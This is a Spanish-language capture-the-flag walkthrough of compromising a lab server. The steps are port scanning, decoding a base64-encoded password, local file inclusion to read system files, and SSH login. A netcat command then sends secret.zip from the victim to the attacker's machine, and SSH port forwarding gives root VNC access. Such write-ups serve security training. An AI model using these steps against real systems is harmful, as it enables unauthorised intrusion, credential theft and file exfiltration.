Fase de reconocimiento
Primero procedo a hacer un análisis de puertos con nmap hacia el servidor:
nmap -sS -p- --open 10.129.1.254 -Pn -oG Ports- -sS: Especifico el uso de un escaneo SYN (half-open)
- -p-: Indico que quiero escanear todo el rango de puertos
- --open: Esto me filtra solo por los puertos abiertos
- -Pn: Esto hace que no haga ping por lo que acelera el escaneo
- -oG Ports: Guarda el resultado del escaneo en un archivo llamado Ports, y de esta forma se pueden filtrar los datos del resultado en caso de que haya una gran cantidad de puertos disponibles

El resultado del escaneo muestra que solo el puerto 22 (SSH) y el puerto 80 (HTTP) están abiertos
Ahora con esta información procedemos a realizar un análisis más detallado del servicio HTTP y SSH
nmap -sCV -p 22,80 10.129.1.254 -oN Versions- -sCV: Especifico que quiero hacer un escaneo de scripts básicos de Nmap (C) y de versiones (V)
- -p 80,22: Indico que quiero escanear solo los puertos 80 y 22
- -oN Versions: Guarda el resultado del escaneo en un archivo llamado Versions, y de esta forma se puede revisar el resultado posteriormente

Reconocimiento de la Página Web (Puerto 80)
Antes de ingresar a la página web, reviso con Curl su código fuente y las cabeceras para analizar las tecnologías en uso y si hay comentarios sensibles expuestos
En el análisis se puede ver que la página parece ser un lugar de pruebas para scripts internos de php:
curl 10.129.1.254
curl 10.129.1.254 --head
Al ingresar a la página web, se puede observar una especie de buscador el cual nosss permite interactuar con los diversos archivos disponibles:
- ini.php
- info.php
- listfiles.php
- phpinfo.php
Si ingresamos a info.php podemos ver que hay versiones del sistema que se encuentra en uso

Cuando ingresamos a listfiles.php podemos ver una lista de los archivos adicionales disponibles en el servidor, y el que más destaca es pwdbackup.txt

Dentro del archivo se puede reconocer un texto el cual parece estar en base64:

Al seguir las instruciones parece ser que se ha hecho uso de base64 13 veces, por lo que en este caso (lo cual no pudo haber sido lo más práctico) he hecho uso de CyberChef para conseguir el texto

Una vez viendo el resultado parece ser una contraseña por lo que he procedido a intentar probarla con el usuario root del servidor ya que es el único usuario que podría confirmar que existe dentro del servicio
Como se puede observar, tuvimos un error de autenticación, por lo que debemos de seguir enumerando el sistema para poder conseguir accceso al servidor

Tras analizar de una manera más detenida la URL sobre como se procesaban los datos, he notado que la URL dice "file="

En experiencias pasadas he visto que esto se puede explotar con Local File Inclusion (LFI), por lo que he decidico hacer la prueba enumerando el /etc/hosts


Al listar el contenido del archivo, nos permite enumerar usuarios válidos dentro del sistema, y el que más destaca es el usuario charix
Una vez tenemos un usario confirmado y una posible contraseña, Nuevamente vuelvo a intentar conectarme por ssh

Escalación de Privilegios
Una vez dentro de la máquina podemos encontrar la user flag y además un archivo llamado secret.zip

Con respecto al archivo secret.zip, podemos suponer que contiene información sensible que nos permitirá realizar la escalada de privilegios.
Pero al intentar descomprimirlo, nos damos cuenta de que requiere una contraseña y a la hora de hacer uso de la misma contraseña ya capturada tenemos problemas ya que el parentesis hace que la contraseña se procese como código y no como texto
Para solucionar este problema he decido usar 7z, pero este no se encuentra disponible dentro de la máquina, por lo que decidido por medio de nc mover el zip a mi máquina
nc -lvnp 4444 > secret.zip --> en la máquina local
nc -w 3 4444 < secret.zip --> en la máquina víctima He hecho uso del parámetro -w 3 para hacer que la conexión se termine de manera automática 3 segundos despues de que la actividad se haya detenido
Esto permite saber cuando los datos se han finalizado de transferir

Una vez tenemos el archivo en nuestra máquina, procedemos a descomprimirlo con 7z usando la contraseña que habíamos encontrado

Al descomprimir el archivo, se observa que es otro tipo ded contraseña o mecanismo de acceso a una herramienta la cual aun no se ha identificado
Al buscar procesos corriendo dentro del sistema, podemos ver que hay un proceso de xvnc el cual está corriendo dentro, pero no nos dice en que puerto corre
VNC es un protocolo de escritorio remoto, por lo que es posible que el archivo descomprimido sea la contraseña para acceder a este servicio

Haciendo uso de sockat podemos ver los puertos que están abiertos dentro del sistema, que servicios corren y bajo cuales usarios
Así que sabiendo esto, podemos observar que el usuario root en el puerto 5901 y 5801 de manera interna está corriendo un servicio de Xvnc

Una vez confirmamos la información, procedemos a hacer port forwarding para exponer ese servicio interno a nuestra máquina
ssh -L 5901:127.0.0.1:5901 charix@10.129.1.254Esto hace que el puerto 5901 de nuestra máquina se redirija al puerto 5901 del servidor, lo cual nos permite acceder al servicio de Xvnc de manera local

Una vez tenemos el servicio expuesto, procedemos a usar un cliente de VNC para conectarnos al servicio y así obtener acceso a la máquina como root
vncviewer 127.0.0.1:5901 -p secret
Una vez dentro del servicio, podemos obtener la root flag y así finalizar el reto. Espero les haya servido la guía